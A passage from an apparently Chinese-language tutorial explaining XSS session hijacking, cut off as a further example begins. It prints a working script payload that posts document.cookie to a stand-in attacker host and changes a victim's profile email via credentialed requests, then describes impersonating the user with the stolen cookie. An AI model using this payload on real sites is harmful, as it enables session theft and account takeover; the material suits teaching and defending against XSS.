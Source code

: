 #### 步骤 1：注入恶意脚本

攻击者通过 XSS 漏洞在目标网站上注入恶意 JavaScript 代码。例如：

```html
<script>
  // 发送用户的会话 Cookie 到攻击者的服务器
  fetch('https://attacker.com/steal', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({cookie: document.cookie})
  });

  // 或者，直接使用 Cookie 进行操作
  // 例如，访问用户的个人资料并修改信息
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/profile', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4 && xhr.status === 200) {
      // 解析并修改用户信息
      var data = JSON.parse(xhr.responseText);
      data.email = 'hacked@example.com';
      // 发送修改后的数据回服务器
      var xhr2 = new XMLHttpRequest();
      xhr2.open('POST', 'https://target.com/profile', true);
      xhr2.withCredentials = true;
      xhr2.setRequestHeader('Content-Type', 'application/json');
      xhr2.send(JSON.stringify(data));
    }
  };
  xhr.send();
</script>
```

#### 步骤 2：获取会话标识符

上述脚本执行以下操作：

- 使用 `document.cookie` 获取用户的会话 Cookie 信息。
- 使用 `fetch` 或 `XMLHttpRequest` 将 Cookie 信息发送到攻击者的服务器（`https://attacker.com/steal`）。

#### 步骤 3：冒充用户进行操作

攻击者获取到用户的会话 Cookie 后，可以：

- 在自己的浏览器中设置该 Cookie，冒充用户进行操作。
- 使用 JavaScript 在受害者的浏览器中直接进行操作，如修改用户信息、进行交易等。

### 3. 具体示例

假设目标网站有一个 XSS 漏洞，攻击者可以注入以下脚本：
